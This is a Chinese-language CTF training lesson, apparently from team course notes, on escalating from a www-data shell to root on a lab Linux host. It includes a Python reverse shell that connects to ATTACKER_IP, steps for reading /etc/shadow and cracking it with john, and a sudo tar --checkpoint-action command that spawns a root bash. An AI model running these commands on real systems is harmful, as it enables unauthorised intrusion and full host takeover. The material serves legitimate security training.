# CTF最强战队蓝莲花内部培训教程：P19：20.路径遍历提权root权限web安全提权

## 概述
在本节课中，我们将学习CTF比赛中的Web安全提权技术。具体来说，我们将探讨在获得一个低权限用户（如`www-data`）的Shell后，如何通过各种方法提升到`root`权限，从而获得目标主机的最高控制权，并最终获取`flag`值。

## 实验环境介绍
上一节我们介绍了提权的基本概念，本节中我们来看看具体的实验环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Linux系统，IP地址为 `192.168.253.21`。

我们已经通过Web漏洞获得了靶机上一个低权限用户（`www-data`）的反弹Shell。我们的目标是利用这个Shell，执行后续操作，最终获得`root`权限。



## 提权方法详解
以下是几种常见的Linux系统提权思路，我们将逐一进行尝试。





### 内核漏洞提权 🐚
内核漏洞提权是指利用操作系统内核中的安全漏洞直接获取最高权限。这通常是我们最先尝试的方法。



**核心概念**：通过上传并执行针对特定内核版本的漏洞利用代码（Exploit）来获得`root`权限。



**操作流程**：
1.  收集系统信息，确定内核版本和发行版。
2.  搜索是否存在可用的公开Exploit。
3.  上传Exploit代码到靶机。
4.  编译并执行Exploit。



**信息收集命令**：
*   查看内核版本：`uname -a`
*   查看发行版信息：`cat /etc/*-release` 或 `cat /etc/issue`

**Exploit利用示例**：
```bash
# 假设上传的Exploit文件为exploit.c
gcc exploit.c -o expoit # 编译
chmod +x expoit # 赋予执行权限
./expoit # 执行，若成功则返回root shell
```

**实践过程**：
在获得的`www-data` Shell中，我们执行`uname -a`和`cat /etc/*-release`，发现靶机系统为`Ubuntu 12.04.5`。使用`searchsploit`工具搜索该版本，未发现可直接利用的内核漏洞。因此，此路不通。

### 明文密码提权 🔑
许多服务的配置文件或数据库中可能保存着明文或哈希形式的密码。如果管理员密码复用，这些密码可能就是`root`用户的密码。

**核心概念**：在系统中寻找存储密码的敏感文件（如`/etc/passwd`和`/etc/shadow`），尝试破解或直接使用。

**操作流程**：
1.  检查能否读取`/etc/passwd`和`/etc/shadow`文件。
2.  若能获取`/etc/shadow`，可使用`unshadow`命令合并文件，并用`john`等工具进行破解。
3.  尝试使用找到的密码通过`su`或`ssh`切换用户。

**实践过程**：
我们尝试读取`/etc/passwd`（成功）和`/etc/shadow`（失败，权限不足）。因此，无法直接通过破解密码哈希提权。

### 计划任务提权 ⏰
Linux系统中的计划任务（cron job）通常以配置用户的权限运行。如果某个以`root`权限运行的任务脚本可被低权限用户写入，我们就可以修改它来获取`root` shell。

**核心概念**：查找`/etc/cron*`目录下，是否有属主为`root`但全局可写（`777`权限）的脚本文件。



**操作流程**：
1.  检查系统计划任务：`cat /etc/crontab`， `ls -la /etc/cron.*/`
2.  如果找到可写的脚本，将其内容替换为反弹Shell的命令。
3.  在攻击机监听对应端口，等待任务执行。

**示例脚本替换**（假设原脚本为Python）：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP", PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**实践过程**：
检查`/etc/crontab`，未发现配置不当的可写任务文件。因此，此方法也不适用。

### 密码复用与SUDO提权 🛠️
在尝试了上述几种方法后，我们转向在系统中挖掘敏感信息。思路是：管理员可能在多个地方使用相同的密码。

**操作流程**：
1.  浏览网站目录、配置文件，寻找数据库连接密码等敏感信息。
2.  尝试使用找到的密码通过`SSH`登录其他用户。
3.  如果登录成功，检查新用户是否拥有`sudo`权限，以及能执行哪些命令。
4.  利用`sudo`权限配置不当进行提权。

**实践过程**：
1.  在`/home`目录下发现用户`zico`。
2.  进入`zico`用户的`wordpress`目录，查看配置文件`wp-config.php`。
3.  在配置文件中找到数据库用户`zico`及其密码`SwfCsFGspV9h3AmQZw8`。
4.  使用`nmap`扫描确认靶机开放`22`（SSH）端口。
5.  尝试用密码`SwfCsFGspV9h3AmQZw8` SSH登录用户`zico`，登录成功。
6.  执行`sudo -l`，查看`zico`用户能以`root`权限执行哪些命令。输出显示可以无需密码以`root`身份执行`/usr/bin/vi`和`tar`命令。



**模拟终端**：在通过`nc`获得的原始Shell中执行`sudo`可能会失败，因为它不是真正的TTY。需要使用Python模拟一个终端：
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 利用SUDO权限提权 🚀
上一节我们确认了`zico`用户可以通过`sudo`以`root`身份运行`vi`和`tar`命令。本节中我们来看看如何利用`tar`命令进行提权。

**利用tar命令提权**：
`tar`命令支持`--checkpoint`和`--checkpoint-action`参数，可以在归档过程中执行任意命令。

**操作步骤**：
1.  创建一个任意文件（如`test`）。
2.  以`root`权限执行`tar`命令对该文件进行归档，并通过参数注入命令，启动一个`root`权限的`bash`。







**具体命令**：
```bash
touch /tmp/exploit # 创建文件
sudo tar -cf /tmp/exploit.tar /tmp/exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
```
执行后，会直接获得一个`root`权限的Shell。

**实践过程**：
我们在`zico`用户的Shell中执行上述命令，成功获得了`root`权限。



## 获取Flag与总结
获得`root`权限后，即可寻找并读取`flag`文件。通常`flag`位于`/root`目录下。



**获取Flag**：
```bash
cd /root
ls
cat flag.txt
```





**本节课总结**：
在本节课中，我们一起学习了多种Linux系统提权的方法：
1.  **内核漏洞提权**：直接但依赖特定漏洞。
2.  **明文/哈希密码提权**：寻找敏感信息，尝试密码复用。
3.  **计划任务提权**：利用配置不当的定时任务。
4.  **SUDO权限滥用提权**：在获得一个具有`sudo`权限的用户后，利用其可执行的命令进行提权（本节课以`tar`为例）。



CTF中的提权环节需要灵活的思路和细致的枚举。当一种方法行不通时，应迅速转向其他可能性，并善于在系统中挖掘隐藏的敏感信息。